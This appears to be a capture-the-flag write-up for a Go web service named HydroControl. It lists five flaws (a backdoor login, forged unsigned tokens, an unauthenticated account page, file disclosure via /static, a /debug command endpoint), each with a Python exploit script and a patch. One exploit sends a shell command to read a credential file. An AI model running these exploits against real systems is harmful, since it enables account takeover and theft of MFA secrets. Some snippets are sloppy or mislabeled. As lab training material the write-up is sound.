

## 1. General description

```md

Authors: Stratulat Dragos, Clapa Adrian
Language: Go
Goal: Determine MFA code for HydroControl system

```

## 2. Vulns


## Find and compute flag function

```python
def find_compute_flag(response):
    flag = None
    try:
        m = re.search(r"otpauth://totp/hydrocontrol\?secret=([A-Z0-9]+)", response)
        secret = m.group(1)
        totp = pyotp.TOTP(secret, digits=9)
        flag = totp.now()
    except Exception as e:
        print(f"[ERROR] Failed to find flag in response: {e}")
    return flag
```

### I. Backdoor Login




- **How to exploit?**
```
Use crack station to crack backdoor hash, then use cracked password to login as staff01 and get MFA of HydroControl system.
```


```python

ip = 30
# Payload crafting phase
headers = {
		'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.3',
}
form_data = {
	'organization': (None, 'government'),
	'username': (None, 'staff01'),
	'password': (None, 'testpassword')
}

session = requests.Session()
session.headers.update(headers)

	# Exploit phase
try:
	response = session.post(f'http://{ip}:8000{login_url}', files=form_data)
	session.cookies.set('bearer', response.headers.get('Set-Cookie').split(';')[0].split('=')[1])
	response = session.get(f'http://{ip}:8000{vault_url}').text
# Submit
	flag = find_compute_flag(response)
	print(f"Flag for teamp {ip} is")
except requests.exceptions.RequestException as e:
	print(f"[ERROR] Request failed: {e}")
except Exception as e:
	print(f"[ERROR] An unexpected error occurred: {e}")
session.close()
```

- **Output**
  


- **How to patch?**
```md
Remove backdoor weak hash
```

![[assets/Pasted image 20250523124258.png]](assets/Pasted%20image%2020250523124258.png)

### II.  Token without any authentication mechanism

**models/token.go**

![[assets/Pasted image 20250523125726.png]](assets/Pasted%20image%2020250523125726.png)

**utils/utils.go**
![[assets/Pasted image 20250523125749.png]](assets/Pasted%20image%2020250523125749.png)

- **How to exploit?**
```
Craft your token for staff01 user and send a request with token value set for bearer header
```

```python

    session = requests.Session()
    session.headers.update(headers)

    session.cookies.set('bearer', 'eyJPcmdhbml6YXRpb24iOiJnb3Zlcm5tZW50IiwiVXNlcm5hbWUiOiJzdGFmZjAxIn0=')

    try:

        response = session.get(f'http://{ip}:8000{vault_url}').text
        flag = find_compute_flag(response)
        submit_flag_and_print(flag, ip, "2.Token without any authentication mechanism")
    except requests.exceptions.RequestException as e:
        print(f"[ERROR] Request failed: {e}")
    except Exception as e:
        print(f"[ERROR] An unexpected error occurred: {e}")
    session.close()
```

- **Output**
  
![[assets/Pasted image 20250523130232.png]](assets/Pasted%20image%2020250523130232.png)
- **How to patch?**

```
Add extra field in token and modify validateBearer function
```

**models/Token.go**

![[assets/Pasted image 20250523130708.png]](assets/Pasted%20image%2020250523130708.png)
**utils/utils.go**

![[assets/Pasted image 20250523130746.png]](assets/Pasted%20image%2020250523130746.png)


### III. Insecure endpoints - Edit account page has no authentication mechanism

![[assets/edit_page.png]](assets/edit_page.png)

- **How to exploit?**
```
Make a get request on /account/government/staff01/7/, get the secret and compute the flag
```

```python
    try:

        ip = "10.1.30.3"
        headers = {
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.3',
        }
        response = requests.get(f'http://{ip}:8000{account_url}', headers=headers).text
        flag = find_compute_flag(response)
        print(f"Flag for team {ip} is {flag}")
    except requests.exceptions.RequestException as e:
        print(f"[ERROR] Request failed: {e}")
    except Exception as e:
        print(f"[ERROR] An unexpected error occurred: {e}")
```

- **Output**
  
![[assets/Pasted image 20250523131249.png]](assets/Pasted%20image%2020250523131249.png)

- **How to patch?**
```
Use previous patched function. Call utils.ValidateBearer at the beginning of edit account function.
```

![[assets/Pasted image 20250523132001.png]](assets/Pasted%20image%2020250523132001.png)

### IV. LFI via /static endpoint


![[assets/Pasted image 20250523132056.png]](assets/Pasted%20image%2020250523132056.png)

- **How to exploit?**

```
Make a get request on /account/government/staff01/7/, grab the secret and compute the flag
```


```python
try:

    ip = "10.1.30.3"
    headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.3',

    }
    static_url = "/static/data/government/staff01.json"
    response = requests.get(f'http://{ip}:8000{static_url}', headers=headers).text
    flag = find_compute_flag(response)
    print(f"Flag for team {ip} is: {flag}")
except requests.exceptions.RequestException as e:
    print(f"[ERROR] Request failed: {e}")
except Exception as e:
    print(f"[ERROR] An unexpected error occurred: {e}")
```

- **Output**
  
![[assets/Pasted image 20250523132530.png]](assets/Pasted%20image%2020250523132530.png)


- **How to patch?**
```
Sanitize filename parameter 
```

![[assets/Pasted image 20250523132722.png]](assets/Pasted%20image%2020250523132722.png)

## V. /debug endpoint

```
Unnecessary debug endpoint.
```

![[assets/Pasted image 20250523133225.png]](assets/Pasted%20image%2020250523133225.png)

- **How to exploit?**
```
Send a command that allow you to read the secret
```

```python
payload = {
    "command": "cat data/government/staff01.json"
}

try:
    ip = "10.1.30.3"
    headers = {
'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.3',
}
    debug_url = "/debug"
    response = requests.get(f'http://{ip}:8000{debug_url}', json=payload, headers=headers).text
    flag = find_compute_flag(response)
    print(f"Flag for {ip} is {flag}")
except requests.exceptions.RequestException as e:
    print(f"[ERROR] Request failed: {e}")
except Exception as e:
    print(f"[ERROR] An unexpected error occurred: {e}")
```

- **Output**
  
![[assets/Pasted image 20250523133523.png]](assets/Pasted%20image%2020250523133523.png)

- **How to patch?**
```
Comment function or eliminate it from routes.go file
```

**routes/routes.go**
![[assets/Pasted image 20250523133750.png]](assets/Pasted%20image%2020250523133750.png)


